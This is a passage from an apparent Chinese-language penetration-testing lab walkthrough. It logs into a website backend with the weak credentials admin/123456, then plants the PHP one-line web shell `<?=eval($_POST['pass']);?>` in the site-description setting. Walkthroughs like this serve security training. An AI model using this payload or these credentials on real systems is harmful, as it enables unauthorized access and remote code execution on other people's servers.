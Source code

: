 ![image-20220615135011766947-1655884058738062.png](img/Untitled.assets/f4e576eb3e8880c402480823cbffb3c4.png)

使用弱口令`admin/123456`成功登录后台：

![image-20220615140609112914-1655884060577573.png](img/Untitled.assets/0caaad2971e5de95a1063bb8d186ea45.png)

##### 任务2：漏洞利用Getshell（T1203 - 利用客户端漏洞获取执行权限）

点击`系统设置`>>`网站设置`，在`站点描述`内插入一句话木马`<?=eval($_POST['pass']);?>`后点击`保存`：
